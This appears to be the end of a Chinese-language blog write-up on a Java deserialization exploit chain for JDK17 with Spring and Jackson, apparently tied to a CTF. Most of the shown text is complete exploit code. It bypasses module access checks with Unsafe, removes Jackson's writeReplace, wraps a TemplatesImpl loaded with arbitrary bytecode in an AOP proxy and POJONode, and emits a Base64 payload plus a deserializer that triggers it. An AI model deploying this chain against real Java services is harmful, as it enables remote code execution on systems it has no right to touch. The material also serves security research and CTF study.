import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import sun.misc.Unsafe;
import java.lang.reflect.Method;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;
import org.springframework.aop.framework.AdvisedSupport;
import javax.xml.transform.Templates;
import java.lang.reflect.*;

public class TheEnd {
    public static void main(String[] args) throws Exception{
        DeletewriteReplace();
        ByPass();
        TemplatesImpl templates = new TemplatesImpl();
        byte[] code = Files.readAllBytes(Paths.get("F:\IntelliJ IDEA 2023.3.2\javascript\JDK17_temp\target\classes\Test.class"));
        byte[] code1 = Files.readAllBytes(Paths.get("F:\IntelliJ IDEA 2023.3.2\javascript\JDK17_temp\target\classes\Tt.class"));
        byte[][] codes = {code,code1};
        setFieldValue(templates, "_name", "Test");
        setFieldValue(templates,"_bytecodes",codes);
        setFieldValue(templates, "_transletIndex", 0);
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(templates);
        Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);
        Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Templates.class}, handler);
        POJONode node = new POJONode(proxy);
        EventListenerList eventListenerList = new EventListenerList();
        UndoManager undomanager = new UndoManager();
        Vector vector = (Vector) getFieldValue(undomanager, "edits");
        vector.add(node);
        setFieldValue(eventListenerList, "listenerList", new Object[]{Class.class, undomanager});
        serialize(eventListenerList, true);
    }
    public static void ByPass(){
        ArrayList<Class> classes = new ArrayList<>();
        classes.add(TemplatesImpl.class);
        classes.add(POJONode.class);
        classes.add(EventListenerList.class);
        classes.add(TheEnd.class);
        classes.add(Field.class);
        classes.add(Method.class);
        new TheEnd().bypassModule(classes);
    }

    public static void DeletewriteReplace() throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass jsonNode = pool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = jsonNode.getDeclaredMethod("writeReplace");
        jsonNode.removeMethod(writeReplace);
        ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
        jsonNode.toClass(classLoader, null);
    }

    public static byte[] serialize(Object obj, boolean flag) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        if (flag) System.out.println(Base64.getEncoder().encodeToString(baos.toByteArray()));
        return baos.toByteArray();
    }
    

    private static Method getMethod(Class clazz, String methodName, Class[]
            params) {
        Method method = null;
        while (clazz!=null){
            try {
                method = clazz.getDeclaredMethod(methodName,params);
                break;
            }catch (NoSuchMethodException e){
                clazz = clazz.getSuperclass();
            }
        }
        return method;
    }
    private static Unsafe getUnsafe() {
        Unsafe unsafe = null;
        try {
            Field field = Unsafe.class.getDeclaredField("theUnsafe");
            field.setAccessible(true);
            unsafe = (Unsafe) field.get(null);
        } catch (Exception e) {
            throw new AssertionError(e);
        }
        return unsafe;
    }
    public void bypassModule(ArrayList<Class> classes){
        try {
            Unsafe unsafe = getUnsafe();
            Class currentClass = this.getClass();
            try {
                Method getModuleMethod = getMethod(Class.class, "getModule", new
                        Class[0]);
                if (getModuleMethod != null) {
                    for (Class aClass : classes) {
                        Object targetModule = getModuleMethod.invoke(aClass, new
                                Object[]{});
                        unsafe.getAndSetObject(currentClass,
                                unsafe.objectFieldOffset(Class.class.getDeclaredField("module")), targetModule);
                    }
                }
            }catch (Exception e) {
            }
        }catch (Exception e){
            e.printStackTrace();
        }
    }

    public static Object getFieldValue(Object obj, String fieldName) throws Exception {
        Field field = null;
        Class c = obj.getClass();
        for (int i = 0; i < 5; i++) {
            try {
                field = c.getDeclaredField(fieldName);
            } catch (NoSuchFieldException e) {
                c = c.getSuperclass();
            }
        }
        field.setAccessible(true);
        return field.get(obj);
    }

    public static void setFieldValue(Object obj, String field, Object val) throws Exception {
        Field dField = obj.getClass().getDeclaredField(field);
        dField.setAccessible(true);
        dField.set(obj, val);
    }
}
```

得到序列化数据后

反序列化

```
import java.io.ByteArrayInputStream;
import java.io.ObjectInputStream;
import java.util.Base64;

public class Deser {
    public static void main(String[] args) {
        try {
            // 你的 Base64 序列化数据
            String base64Data = "xxxxxxx";

            // Base64解码
            byte[] data = Base64.getDecoder().decode(base64Data);

            // 反序列化
            ByteArrayInputStream bais = new ByteArrayInputStream(data);
            ObjectInputStream ois = new ObjectInputStream(bais);
            ois.readObject();
            ois.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}

```



参考  
<http://www.bmth666.cn/2024/03/31/%E7%AC%AC%E4%BA%8C%E5%B1%8A-AliyunCTF-chain17%E5%A4%8D%E7%8E%B0/index.html>

<https://xz.aliyun.com/news/18628>

<https://fushuling.com/index.php/2025/08/21/%e9%ab%98%e7%89%88%e6%9c%acjdk%e4%b8%8b%e7%9a%84spring%e5%8e%9f%e7%94%9f%e5%8f%8d%e5%ba%8f%e5%88%97%e5%8c%96%e9%93%be/>

<https://pankas.top/2023/12/05/jdk17-%E5%8F%8D%E5%B0%84%E9%99%90%E5%88%B6%E7%BB%95%E8%BF%87/>
